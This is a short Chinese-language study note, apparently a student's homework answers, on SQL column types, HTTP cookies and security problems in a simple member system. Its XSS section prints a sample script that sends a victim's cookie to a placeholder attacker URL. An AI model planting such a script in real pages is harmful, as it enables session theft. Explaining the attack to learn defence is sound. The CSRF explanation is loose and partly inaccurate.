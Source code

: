 ## 資料庫欄位型態 VARCHAR 跟 TEXT 的差別是什麼
1.char的長度固定，每個字節都會佔用空間，適合在身分證號碼跟手機號碼。
2.varchar可以設定最大長度，字節長度最大到65535，
3.text不可以設定長度，如果不知道最大長度，可以使用text

查詢速度快到慢：char>varchar>text


## Cookie 是什麼？在 HTTP 這一層要怎麼設定 Cookie，瀏覽器又是怎麼把 Cookie 帶去 Server 的？
http的協議本身是無記憶狀態的（stateless），因此無論是client端或者web伺服器端，每個網頁的每次request都是單獨的請求，因此可以藉由cookie 來讓用戶的各項操作產生連結。

cookie是指伺服器產生一個紀錄檔放在電腦上，讓不同request 產生關聯，再下次的request，伺服器可以先檢查有沒有上次留下的cookie資料，若是有cookie 檔案，可以根據cookie來判斷使用者，傳送特定網頁。
php可以使用setcookie這個function來設定cookie的key與value

## 我們本週實作的會員系統，你能夠想到什麼潛在的問題嗎？

1. XSS:
攻擊者得知網站A存在漏洞，在相應網頁植入惡意的script代碼。
`<script>window.open(www.xxx.com?cookie =xxx)</script> 
`
惡意代碼被執行，並將收集到的敏感信息（如cookie）發送到攻擊者伺服器。
若是沒有在伺服器那邊多寫一層認證，則會直接送出至伺服器。

2. CSRF
跨請求偽造，
刻意的導向到其他網址，例如這禮拜的作業：
 在留言輸入框的action可以更改URL網址，使得使用者送出後轉向其他網址！

